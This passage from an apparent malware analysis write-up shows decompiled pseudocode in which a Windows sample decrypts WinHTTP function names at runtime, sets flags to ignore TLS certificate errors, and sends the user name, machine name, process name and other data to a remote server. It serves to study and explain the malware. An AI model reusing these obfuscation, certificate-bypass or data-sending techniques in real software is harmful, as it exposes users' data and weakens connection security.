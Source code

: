 It configures the HTTP request to ignore SSL/TLS errors:

```c
int32_t var_2a0 = 0x3300;
...
GetEncryptedDataOf_WinHttpSetOption(&var_2c1, &var_2c0);
void* name_WinHttpSetOption = GetDecryptedData(&var_2c0);
void var_2f1;
void var_2f0;
GetEncryptedDataOf_winhttp_4(&var_2f1, &var_2f0);
void* name_winhttp_4;
int64_t r8_4;
name_winhttp_4 = DecryptData_4(&var_2f0);
ResolveFunction(name_winhttp_4, name_WinHttpSetOption, r8_4, r9_2)(hRequest, 0x1f, &var_2a0, 4);
```
Les flags sont les suivants :

The flags are as follows:

```text
0x3300 = 0x3000 | 0x0200 | 0x0100
       = SECURITY_FLAG_IGNORE_CERT_DATE_INVALID
         | SECURITY_FLAG_IGNORE_CERT_CN_INVALID
         | SECURITY_FLAG_IGNORE_UNKNOWN_CA
```

Then, it sends the request using `WinHttpSendRequest` with additional information (user name, machine name, process name, a hexadecimal string, as well as other data that I have not identified):

```c
GetEncryptedDataOf_WinHttpSendRequest(&var_319, &var_318);
void* name_WinHttpSendRequest = DecryptData_7(&var_318);
void var_349;
void var_348;
GetEncryptedDataOf_winhttp_5(&var_349, &var_348);
void* name_winhttp_5;
int64_t r8_6;
name_winhttp_5 = DecryptData_4(&var_348);
int32_t var_818 = 0x648;
int64_t success_request = ResolveFunction(name_winhttp_5, name_WinHttpSendRequest, r8_6, r9_3)(hRequest, 0, 0xffffffff, &data_7ffa1bc6ab40, 0x648, 0x648, 0);
```

Then, it receives the response from the server:

```c
GetEncryptedDataOf_WinHttpReceiveResponse(&var_371, &var_370);
void* name_WinHttpReceiveResponse = DecryptData_9(&var_370);
void var_3a1;
void var_3a0;
GetEncryptedDataOf_winhttp_6(&var_3a1, &var_3a0);
void* name_winhttp_6;
int64_t r8_7;
name_winhttp_6 = DecryptData_4(&var_3a0);
int64_t get_response = ResolveFunction(name_winhttp_6, name_WinHttpReceiveResponse, r8_7, success_request)(hRequest, 0);
```
